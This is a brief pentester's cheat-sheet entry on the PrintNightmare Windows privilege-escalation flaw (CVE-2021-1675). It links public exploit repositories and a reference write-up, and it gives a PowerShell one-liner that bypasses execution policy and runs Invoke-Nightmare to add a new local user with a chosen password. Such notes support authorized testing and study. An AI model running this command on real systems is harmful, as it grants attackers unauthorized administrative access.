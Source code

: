 ```yaml
---
description: PrintNightmare Local / Remote Privilege Escalation
---
```


# print nightmare

## no DLL needed:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)

```bash
# no DLLs needed
powershell.exe -exec bypass -Command "& {Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare -NewUser 'kashz' -NewPassword 'iamkashz@123'}"
```

## Needs DLL to compile

* [https://github.com/outflanknl/PrintNightmare](https://github.com/outflanknl/PrintNightmare)

## Reference

* [https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)